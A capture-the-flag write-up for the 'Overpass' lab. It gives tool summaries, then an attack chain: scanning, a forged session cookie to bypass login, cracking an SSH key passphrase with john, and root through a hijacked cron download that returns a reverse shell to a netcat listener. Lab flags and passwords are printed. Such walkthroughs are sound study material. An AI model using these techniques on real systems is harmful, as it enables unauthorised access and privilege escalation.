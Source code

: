 # Overpass

--------------------------------------------------------------------

**TOOLS USED**: nmap, nikto, netcat, john

**nmap**: network exploration tool and security / port scanner<br>

```
nmap [Scan Type...] [Options] {target specification}
```

Scan Types:<br>
-Ss [DEFAULT] TCP SYN Scan (Doesn't open full TCP connection)<br>
-St TCP Scan (Opens full TCP connection)<br>
-Su UDP Scan<br>

-Sc script scan
-sV probe for service/version info
-oN save output to file
-p- scan all ports

To find all devices connected to a network:

```
nmap -sL x.x.x.x/24
```

**nikto**: Web Server Vulnerability Scanner

```
nikto -h IP
```

-h Host

**netcat**: networking utility for reading and writing to network connections using TCP/IP

```
nc [-options] hostname port[s] [ports] ...
nc -l -p port [-options] [hostname] [port]
```

-n suppress name/port resolutions
-l listen mode
-v verbose
-p port

**john**: tool to crack weak passwords

```
john [options] password-files
```

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.149.189

--------------------------------------------------------------------

### 1. FIND USER FLAG

```
nmap -sC -sV -oN nmap.txt -p- 10.10.149.189
```

![nmap](./imgs/nmap.png)


**EXPOSED PORT (SERVICE)**:<br>
22 (ssh),<br>
80 (http),<br>

HTML source says something about roman encryption algorithm (ROT13?)

Download the source code on the website
![nmap](./imgs/algo.png)

Encryption Algorithm Used: ROT47

```
nikto -h 10.10.149.189
```

Dir Of Interest: /admin

Go through /login.js file (inspect source)
![nmap](./imgs/login.png)

Can use the Cookies.set() method and pass anything we want to get a cookie

```
Cookies.set("SessionToken","success")
```

![nmap](./imgs/cookie.png)

USER: james

![nmap](./imgs/key.png)

```
ssh2john private.key > 4john
john 4john --wordlist=/usr/share/wordlists/rockyou.txt
```

![nmap](./imgs/john.png)

SSH Private Key Password: james13

Error when using private key so I have to change permissions
```
chmod 700 private.key
ssh -i private.key james@10.10.149.189
```

user.txt: thm{65c1aaf000506e56996822c6281e6bf7}

--------------------------------------------------------------------

### 2. FIND ROOT FLAG

```
cat .overpass
```

.overpass contents:<br>
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.

ROT47 Decrypted:<br>
[{"name":"System","pass":"saydrawnlyingpicture"}]

James User Password: saydrawnlyingpicture

```
nc -lnvp 4444 > linpeas # On target
nc 10.10.149.189 4444 < linpeas # On host
./linpeas # On target
```

Curl is executed by root every minute and the received file is executed
![nmap](./imgs/linpeas.png)

Change IP address of overpass.htm to my IP
![nmap](./imgs/hosts.png)

Create buildscript file on my computer
![nmap](./imgs/buildscript.png)

Start listening on port 80 (to send reverse shell script) and port 4444 (to receive reverse shell connection)
```
sudo python -m http.server 80
nc -lnvp 4444
```

![nmap](./imgs/rev_shell.png)

root.txt: thm{7f336f8c359dbac18d54fdd64ea753bb}